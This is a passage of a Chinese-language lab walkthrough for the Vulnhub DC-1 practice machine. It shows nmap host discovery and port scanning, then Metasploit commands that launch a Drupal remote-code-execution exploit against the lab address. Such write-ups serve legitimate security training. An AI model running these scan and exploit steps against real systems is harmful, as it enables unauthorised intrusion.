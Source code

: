 # Vulnhub

- [Vulnhub-DC-1](#Vulnhub-DC-1)


- [参考文章](#参考文章)
    - [peiqi](http://www.peiqi.tech/posts/3371/)
    - [csdn](https://blog.csdn.net/weixin_45554136/article/details/110128358?ops_request_misc=%257B%2522request%255Fid%2522%253A%2522164013920016780255227560%2522%252C%2522scm%2522%253A%252220140713.130102334..%2522%257D&request_id=164013920016780255227560&biz_id=0&utm_medium=distribute.pc_search_result.none-task-blog-2~blog~top_click~default-1-110128358.nonecase&utm_term=vulnhub&spm=1018.2226.3001.4450)

## Vulnhub-DC-1

1. DC-1靶场搭建

- 官网靶场下载地址：
    - https://www.vulnhub.com/entry/dc-1-1,292/

- Vmware Nat配置


2. 信息收集

```bash
namp -sP 192.168.106.0/24
# -sP 默认发ICMP echo请求和TCP的ACK请求（80端口）
```

![image](./img/DC1-1.png)

发现`192.168.106.135`,进行端口扫描：

```bash
nmap -sC -sV -p1-65535 192.168.106.135
# -sV：探测开放端口的服务和版本信息，-p：端口范围或指定端口
```

![image](./img/DC1-2.png)

访问80端口，可以看出是drupal的站点

![image](./img/DC1-3.png)

```bash
msfconsole
search drupal
use exploit/unix/webapp/php_xmlrpc_eval
show options
set rhosts 192.168.106.135
exploit
```

